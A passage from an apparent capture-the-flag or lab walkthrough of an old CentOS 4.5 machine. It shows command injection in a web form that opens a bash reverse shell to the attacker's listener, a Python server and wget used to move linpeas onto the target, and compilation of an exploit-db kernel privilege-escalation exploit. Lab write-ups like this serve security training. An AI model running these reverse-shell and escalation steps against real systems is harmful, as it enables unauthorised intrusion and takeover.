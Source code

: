 Once here, we listen to our kali and execute the following command to get a reverse Shell

```bash
#kali
nc -nlvp 4444
#En la web
192.168.66.152 ; bash -i >& /dev/tcp/192.168.66.152/4444 0>&1
```

result:

```bash
┌──(kali㉿kali)-[~]
└─$ nc -nlvp 4444                     
listening on [any] 4444 ...
connect to [192.168.66.152] from (UNKNOWN) [192.168.66.160] 32779
bash: no job control in this shell
bash-3.00$ whoami
apache
```

### Privilege Escalation

We transfer [linpeas.sh](https://github.com/carlospolop/PEASS-ng/releases) from our Kali to the machine to see where we can escalate privileges, for this we start a server with Python in our Kali:

```bash
python3 -m http.server 80
```

and with wget from the machine we download Linpeas.

```bash
wget http://192.168.66.152/linpeas.sh
```

Once we have Linpeas on the target machine we run it and we see the following:

![Untitled](Untitled%209.png)

The machine is a CentOS 4.5 with Linux version 2.6.9.

We searched Google to see if there is a privilege escalation exploit with these characteristics and found the following exploit:

[https://www.exploit-db.com/exploits/9542](https://www.exploit-db.com/exploits/9542)

We download it to our machine and transfer it as we have done before.

Compile it

```bash
gcc 9542.c -o exploit
```
